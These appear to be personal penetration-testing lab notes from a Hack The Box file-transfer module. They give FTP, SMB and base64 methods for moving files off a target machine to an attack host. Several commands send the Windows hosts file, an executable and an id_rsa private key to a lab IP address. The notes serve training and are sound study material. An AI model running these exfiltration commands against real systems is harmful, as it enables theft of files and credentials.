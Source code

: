 
```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

<mark class="hltr-grey">Create a Command File for the FTP Client to Upload a File</mark>

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

### <mark class="hltr-orange">SMB Upload</mark>

We launch an smb server on the attack machine:

```shell-session
sudo impacket-smbserver -smb2support CompData /home/dali/Documents/
```

- CompData is the share name
- /home/dali/Documents is the directory where the files will be stored


then we upload the files:
```
copy test.exe \\10.10.14.32\CompData
```

---
# <mark class="hltr-pink">Linux File Transfer Methods</mark>

## <mark class="hltr-cyan">Base64 Encoding / Decoding</mark>

- encoding
```shell-session
cat id_rsa |base64 -w 0;echo
```
